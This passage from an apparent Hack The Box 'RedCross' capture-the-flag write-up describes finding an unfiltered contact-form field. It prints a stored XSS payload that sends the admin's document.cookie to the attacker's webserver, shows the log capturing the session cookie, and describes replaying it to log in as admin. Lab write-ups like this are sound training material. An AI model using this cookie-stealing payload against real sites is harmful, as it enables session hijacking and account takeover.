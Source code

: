 Because this is a messaging application, we can assume that admin will be checking messages periodically so we will try to get the admin session cookie with an XSS. Back on the main page, there is a contact form we can use to send messages to the administrator.

![](/assets/images/htb-writeup-redcross/redcross_contact.png)

The first two fields `subject` and `body` don't appear to be vulnerable to XSS because the input is filtered. We get the following error message when we try to inject stuff like `<script>....`: `Oops! Someone is trying to do something nasty...`

But the last field, `cbody` is not filtered and accepts any characters we send.

To test the XSS, we'll try a very simple payload that'll create an image on the page pointing to our attacker machine. The request will contain the `document.cookie` which hopefully contains the session cookie.

Payload: `<script>var myimg = new Image(); myimg.src = 'http://10.10.14.23/q?=' + document.cookie;</script>`

After a minute or so, we can see an incoming HTTP request made to our webserver, containg the admin session cookie:

```
root@ragingunicorn:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.113 - - [11/Nov/2018 12:00:47] code 404, message File not found
10.10.10.113 - - [11/Nov/2018 12:00:47] "GET /q?=PHPSESSID=8e2u3570ceoa9vk2vofvgnibv3;%20LANG=EN_US;%20SINCE=1541955270;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Using Firefox's web developer tools, we can simply change the cookies and add all four values into our session, then hit refresh on the main page to log in as admin.
